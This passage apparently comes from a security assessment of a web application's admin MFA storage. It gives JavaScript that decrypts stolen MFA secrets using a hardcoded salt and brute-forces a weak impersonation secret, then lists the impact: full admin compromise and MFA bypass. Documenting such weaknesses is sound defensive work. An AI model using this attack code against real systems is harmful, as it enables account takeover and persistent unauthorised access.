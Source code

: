 ```javascript
// Step 3: Attempt decryption with known hardcoded salt
const crypto = require('crypto');

const ALGORITHM = "aes-256-gcm";
const HARDCODED_SALT = "admin-security"; // From source code

function attemptDecryption(encryptedPayload, candidateSecret) {
  const [ivHex, tagHex, encryptedHex] = encryptedPayload.split(":");
  const key = crypto.scryptSync(candidateSecret, HARDCODED_SALT, 32);
  
  try {
    const decipher = crypto.createDecipheriv(
      ALGORITHM, 
      key, 
      Buffer.from(ivHex, "hex")
    );
    decipher.setAuthTag(Buffer.from(tagHex, "hex"));
    const decrypted = Buffer.concat([
      decipher.update(Buffer.from(encryptedHex, "hex")),
      decipher.final(),
    ]);
    return decrypted.toString("utf8");
  } catch {
    return null;
  }
}

// Step 4: Brute force ADMIN_IMPERSONATION_SECRET
const commonSecrets = [
  "admin123", "password", "secret", 
  "development", "production", "changeme"
];

const stolenEncrypted = "abc123:def456:ghi789";

for (const secret of commonSecrets) {
  const result = attemptDecryption(stolenEncrypted, secret);
  if (result) {
    console.log(`SUCCESS! MFA Secret: ${result}`);
    // Now generate valid TOTP codes
    break;
  }
}
```

#### Success Criteria
- Database access obtained (SQL injection, backup theft, insider threat)
- Encryption key is weak or guessable
- Hardcoded salt makes decryption easier

#### Impact Assessment
- **Complete Admin Compromise**
- Bypass MFA for all admin accounts
- Persistent backdoor access
- No detection possible (using legitimate MFA codes)

---